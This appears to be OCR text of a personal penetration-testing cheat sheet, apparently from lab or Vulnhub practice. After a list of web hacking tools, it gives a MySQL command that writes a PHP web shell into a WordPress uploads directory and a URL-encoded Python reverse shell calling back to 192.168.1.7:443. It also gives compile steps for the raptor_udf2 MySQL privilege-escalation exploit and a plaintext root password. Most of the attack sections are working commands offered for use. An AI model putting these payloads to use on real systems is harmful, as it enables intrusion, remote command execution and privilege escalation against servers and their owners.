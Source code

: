 #### WEB HACKERS TOOKIT

•	WEBBROWSERS

•	Tamper Data

•	Live HTTP Headers

•	Developers TOOLS

•	COOKIE Watchers

•	Vulnerability scanners

•	Refer to the Web APP hacking hackers handbook inside kindle

### SQL Exploitation

REF: SQL Injection attacks and defenses

#### Try and upload a PHP shell through mysql if if you get root

```
Mysql > Select "<?php echo shell_exec(*dollar-sign*_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```
Once done, we can navigate to https://*IPAddress*/blogblog/wp-content/uploads/, and we should see our php shell in there.

Once inside the shell, let’s check to see if it works by appending ?cmd=ifconfig to the end of the url. This should give us a 

dirty output - but will let us know if the shell works properly.
 
WEB Shell to shell

Nc –lvp 443

```
Shell.php?cmd=python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### mysql exploitation

https://g0blin.co.uk/lord-of-the-root-vulnhub-writeup/

If mysql is runing as root so i tried MySQL 4.x/5.0 - User-Defined Function Local Privilege Escalation Exploit

it is exploit that gets mysql to run system commands

cat /usr/share/exploitdb/platforms/linux/local/1518.c

copied it into VM

```
gcc -g -c raptor_udf2.c

gcc -g -shared -Wl,-soname,raptor_udf2.so -oraptor_udf2.so raptor_udf2.o -lc

```
mysql -u root -p   (password : darkshadow )
